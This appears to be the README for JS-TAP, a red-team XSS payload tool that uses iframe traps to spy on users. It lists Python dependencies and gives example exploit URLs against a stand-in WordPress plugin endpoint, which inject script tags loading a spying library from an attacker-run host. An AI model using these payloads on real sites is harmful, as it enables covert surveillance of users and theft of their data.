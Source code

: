 # JS-TAP
Tailored XSS payload that uses iFrame traps to spy on user. Can also be used as a post exploitation payload. 
Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors
flask-sqlalchemy
sqlalchemy-utils
flask-login
flask-bcrypt


Generator ones:
dataframe_image
fpdf
progressbar




HTML Parser:
bs4




https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://192.168.2.61:8444/lib/telemlib.js%27%3E%3C/script%3E

https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://127.0.0.1:8444/lib/telemlib.js%27%3E%3C/script%3E



https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E


